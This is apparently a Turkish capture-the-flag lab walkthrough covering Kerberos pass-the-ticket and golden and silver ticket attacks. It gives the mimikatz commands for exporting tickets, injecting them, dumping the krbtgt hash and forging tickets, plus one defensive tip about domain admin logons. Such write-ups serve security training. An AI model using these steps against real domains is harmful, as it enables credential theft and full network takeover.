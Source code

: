 Mimikatz hedef makinede Downloads dizininde yer almakta, dizine gidip mimikatz'i çalıştıralım. `privilege::debug` komutunu yürütelim ve mimikatz'in doğru çalıştığından emin olalım. Çıktının `'20' OK`  olması gerekiyor, aksi takdirde düzgün çalışmıyordur.

![]({{ 'assets/img/18.PNG' | relative_url }})

`sekurlsa::tickets /export` komutu ile tüm .kirbi biletlerini şu anda bulunduğunuz dizine aktaralım.

![]({{ 'assets/img/20.PNG' | relative_url }})

`kerberos::ptt <ticket>` komutu ile elde edilen biletleri mimikatz içinde çalıştıralım. Komut verilen bileti önbelleğe almakta ve taklit etmektedir. Burada <ticket> alanına `sekurlsa::tickets /export` komutundan elde ettiğimiz çıktıları parametre olacak vereceğiz. Çıktıyı doğru anlamak önemlidir. 
	
	Örneğin: 
	
	[0;1e4230]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi --> krbtgt için bilettir.
	
	[0;1e4230]-0-1-40a10000-Administrator@CONTROLLER-1-SQLService.CONTROLLER.local~30111.kirbi --> SQLServis hesabı için bilettir.
	
	[0;1e4230]-0-0-40a10000-Administrator@CONTROLLER-1-HTTPService.CONTROLLER.local~30222.kirbi --> HTTPServis hesabı için bilettir.

![]({{ 'assets/img/21.PNG' | relative_url }})

`klist` komutu önbelleğe alınmış biletleri listelemekte ve bu işlemleri doğrulamaktadır.

![]({{ 'assets/img/22.PNG' | relative_url }})

**ÖNEMLİ !!** Etki alanı yöneticilerinizin etki alanı denetleyicisi dışında herhangi bir şeye oturum açmasına izin vermeyin. Bu çok basit bir önlem olabilir, ancak birçok etki alanı yöneticisi hala düşük seviyeli bilgisayarlarda oturum açar ve etrafta saldırmak ve lateral movement için kullanabileceğimiz biletler bırakır.

Pass the Ticket Saldırılarını anladığımıza göre Task 7'ye geçebiliriz.

## **Task 7: Golden/Silver Ticket Attacks w/ mimikatz** 

`lsadump::lsa /inject /name:krbtgt` komutu ile krbtgt kullanıcısının hash'ini dump edebiliriz.

Silver Ticket oluşturmak için, bir etki alanı yöneticisi hesabının veya SQLService hesabı gibi bir hizmet hesabının hash'ini dump için /name: öğesini değiştirmek gerekmektedir.

![]({{ 'assets/img/23.PNG' | relative_url }})

`Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:` komutu Silver Ticket oluşturmak için Golden Ticket oluşturma komutudur. sid, krbtgt ve id bilgilerini çıktıya uygun olarak değiştirin. 

`misc::cmd` mimikatz'de verilen biletle daha ayrıcalıklı yüksek yetkili bir komut istemi açacaktır.

![]({{ 'assets/img/24.PNG' | relative_url }})

Erişim yetkisi ve erişebileceğiniz kaynaklar, bileti almaya karar verdiğiniz kullanıcının ayrıcalıklarına bağlı olacaktır. Eğer bileti krbtgt'den aldıysanız, TÜM ağa erişiminiz vardır (**Golden Ticket**).  **Silver Ticket**'ta yalnızca o kullanıcının erişebildiği kişilere erişimi vardır, eğer bir etki alanı yöneticisiyse neredeyse tüm ağa erişebilir, ancak Golden Ticket'tan biraz daha az yükselir.
